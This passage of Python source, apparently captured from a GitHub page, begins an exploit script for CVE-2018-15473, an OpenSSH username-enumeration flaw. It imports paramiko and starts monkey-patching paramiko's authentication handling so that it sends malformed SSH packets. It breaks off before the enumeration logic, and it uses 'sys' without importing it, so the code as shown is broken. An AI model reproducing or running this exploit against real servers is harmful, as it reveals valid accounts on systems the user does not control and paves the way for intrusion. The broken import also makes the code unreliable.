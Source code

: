 ```python
import re
import socket
import logging
import argparse
import multiprocessing
from typing import Union
from pathlib import Path

import paramiko

assert sys.version_info >= (3, 6), "This program requires python3.6 or higher"


class Color:
    """ Class for coloring print statements.  Nothing to see here, move along. """
    BOLD = '\033[1m'
    ENDC = '\033[0m'
    RED = '\033[38;5;196m'
    BLUE = '\033[38;5;75m'
    GREEN = '\033[38;5;149m'
    YELLOW = '\033[38;5;190m'

    @staticmethod
    def string(string: str, color: str, bold: bool = False) -> str:
        """ Prints the given string in a few different colors.
        Args:
            string: string to be printed
            color:  valid colors "red", "blue", "green", "yellow"
            bold:   T/F to add ANSI bold code
        Returns:
            ANSI color-coded string (str)
        """
        boldstr = Color.BOLD if bold else ""
        colorstr = getattr(Color, color.upper())
        return f'{boldstr}{colorstr}{string}{Color.ENDC}'


class InvalidUsername(Exception):
    """ Raise when username not found via CVE-2018-15473. """


def apply_monkey_patch() -> None:
    """ Monkey patch paramiko to send invalid SSH2_MSG_USERAUTH_REQUEST.
        patches the following internal `AuthHandler` functions by updating the internal `_handler_table` dict
            _parse_service_accept
            _parse_userauth_failure
        _handler_table = {
            MSG_SERVICE_REQUEST: _parse_service_request,
            MSG_SERVICE_ACCEPT: _parse_service_accept,
            MSG_USERAUTH_REQUEST: _parse_userauth_request,
            MSG_USERAUTH_SUCCESS: _parse_userauth_success,
            MSG_USERAUTH_FAILURE: _parse_userauth_failure,
            MSG_USERAUTH_BANNER: _parse_userauth_banner,
            MSG_USERAUTH_INFO_REQUEST: _parse_userauth_info_request,
            MSG_USERAUTH_INFO_RESPONSE: _parse_userauth_info_response,
        }
    """

    def patched_add_boolean(*args, **kwargs):
        """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """

```